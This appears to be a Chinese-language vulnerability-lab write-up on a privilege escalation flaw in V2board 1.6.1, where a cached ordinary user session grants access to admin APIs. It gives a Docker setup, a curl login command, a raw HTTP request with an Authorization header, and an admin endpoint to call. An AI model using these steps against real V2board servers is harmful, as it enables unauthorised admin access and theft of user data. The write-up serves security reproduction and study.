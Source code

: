 # V2board 1.6.1 提权漏洞

## 漏洞描述

V2board是一个多用户代理工具管理面板。在其1.6.1版本中，引入了对于用户Session的缓存机制，服务器会将用户的认证信息储存在Redis缓存中。

但由于读取缓存时没有校验该用户是普通用户还是管理员，导致普通用户的认证信息即可访问管理员接口，造成提权漏洞。

参考链接：

- <https://github.com/v2board/v2board/commit/5976bcc65a61f7942ed4074b9274236d9d55d5f0>

## 环境搭建

Vulhub执行如下命令启动一个V2board 1.6.1版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到其登录页面。

![image-20230504112004533](images/image-20230504112004533.png)

## 漏洞复现

复现该漏洞，必须注册或找到一个普通用户账号。注册完成后，我们发送如下请求进行登录（将其中账号密码替换成你注册时使用的信息）：

```
curl -i -s -k -XPOST --data-binary "email=threeki%40abc.com&password=threeki@wh0am1" http://your-ip:8080/api/v1/passport/auth/login
```

服务器会返回当前用户的认证信息“auth_data”：

![image-20230504112219108](images/image-20230504112219108.png)

拷贝这个认证信息，并替换到如下数据包的`Authorization`头中，发送：

```
GET /api/v1/user/info HTTP/1.1
Host: your-ip:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Authorization: dGhyZWVraUBhYmMuY29tOiQyeSQxMCRnb1UzUDBCL25ocTg2blZvYTUvRm5PbVpKUG5yTFptZ2hJa3FUNUdRYndVL003WXNpdVlqMg==
```

![image-20230504112604993](images/image-20230504112604993.png)

这一步的目的是让服务器将我们的Authorization头写入缓存中。

最后，只需要带上这个Authorization头，即可使用所有管理员API了。例如`http://your-ip:8080/api/v1/admin/user/fetch`

![image-20230504112709503](images/image-20230504112709503.png)